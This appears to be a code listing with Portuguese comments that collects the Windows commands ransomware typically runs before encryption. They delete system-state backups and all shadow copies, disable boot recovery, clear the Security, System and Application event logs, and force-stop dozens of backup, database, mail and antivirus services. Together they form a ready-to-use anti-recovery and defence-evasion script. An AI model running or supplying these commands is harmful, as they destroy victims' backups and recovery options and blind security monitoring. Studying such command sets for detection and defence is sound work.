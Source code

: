 #Utilizado para ativar a regra do Firewall que permite a descoberta de rede. 

"netsh.exe" advfirewall firewall set rule "group=”Network Discovery”" new enable=Yes

#Usado para excluir todas as cópias de backup do estado do sistema no Windows Server Backup, mantendo zero versões.

"wbadmin.exe" delete systemstatebackup -keepVersions:0 -quiet

#Utilizado para excluir uma cópia de backup do estado do sistema Windows Server Backup.

"wbadmin.exe" DELETE SYSTEMSTATEBACKUP

#Utilizado para excluir a cópia mais antiga do backup do sistema no Windows Server Backup. 

"wbadmin.exe" DELETE SYSTEMSTATEBACKUP -deleteOldest

#Utilizado para manipular a configuração do Boot Configuration Data (BDC) no Windows, desabilita a recuperação do sistema no menu de inicialização do Windows. 

"bcdedit.exe" /set {default} recoveryenabled No

#Utilizado para configurar a política de inicialização do Windows para ignorar todas as falhas. 

"bcdedit.exe" /set {default} bootstatuspolicy ignoreallfailures

#Utilizado o wevutil para limpezar dos logs Security, System e Application.

"cmd.exe" /c wevtutil cl security

"cmd.exe" /c wevtutil cl system

"cmd.exe" /c wevtutil cl application


#Comando utilizado para interrupção de serviços de rede, o parâmetro /y é para não solicitar confirmação do usuário. 

"net" stop /y vmcomp
"net" stop /y vmwp
"net" stop /y veeam
"net" stop /y Back
"net" stop /y xchange
"net" stop /y backup
"net" stop /y Backup
"net" stop /y acronis
"net" stop /y AcronisAgent
"net" stop /y AcrSch2Svc
"net" stop /y sql
"net" stop /y Enterprise
"net" stop /y Veeam
"net" stop /y VeeamTransportSvc
"net" stop /y VeeamNFSSvc
"net" stop /y AcrSch
"net" stop /y bedbg
"net" stop /y DCAgent
"net" stop /y EPSecurity
"net" stop /y EPUpdate
"net" stop /y Eraser
"net" stop /y EsgShKernel
"net" stop /y FA_Scheduler
"net" stop /y IISAdmin
"net" stop /y IMAP4
"net" stop /y MBAM
"net" stop /y Endpoint
"net" stop /y Afee
"net" stop /y McShield
"net" stop /y task
"net" stop /y mfemms
"net" stop /y mfevtp
"net" stop /y mms
"net" stop /y MsDts
"net" stop /y Exchange
"net" stop /y ntrt
"net" stop /y PDVF
"net" stop /y POP3
"net" stop /y Report
"net" stop /y RESvc
"net" stop /y Monitor
"net" stop /y Smcinst
"net" stop /y SmcService
"net" stop /y SMTP
"net" stop /y SNAC
"net" stop /y swi_
"net" stop /y CCSF
"net" stop /y ccEvtMgr
"net" stop /y ccSetMgr
"net" stop /y TrueKey
"net" stop /y tmlisten
"net" stop /y UIODetect
"net" stop /y W3S
"net" stop /y WRSVC
"net" stop /y NetMsmq
"net" stop /y ekrn
"net" stop /y EhttpSrv
"net" stop /y ESHASRV
"net" stop /y AVP
"net" stop /y klnagent
"net" stop /y wbengine
"net" stop /y KAVF
"net" stop /y mfefire
"net" stop /y svc$
"net" stop /y memtas
"net" stop /y mepocs
"net" stop /y GxVss
"net" stop /y GxCVD
"net" stop /y GxBlr
"net" stop /y GxFWD
"net" stop /y GxCIMgr
"net" stop /y BackupExecVSSProvider
"net" stop /y BackupExecManagementService
"net" stop /y BackupExecJobEngine
"net" stop /y BackupExecDiveciMediaService
"net" stop /y BackupExecAgentBrowser
"net" stop /y BackupExecAgentAccelerator
"net" stop /y vss
"net" stop /y BacupExecRPCService
"net" stop /y CASAD2WebSvc
"net" stop /y CAARCUpdateSvc
"net" stop /y YooBackup
"net" stop /y YooIT

#Excluir todas as cópias de sombra (shadow copies) armazenadas pelo serviço VSS.

vssadmin.exe delete shadows /all /quiet

#Utilizado para todas as cópias de sombra do sistema usando o WMIC. 

"wmic.exe" SHADOWCOPY DELETE /nointeractive
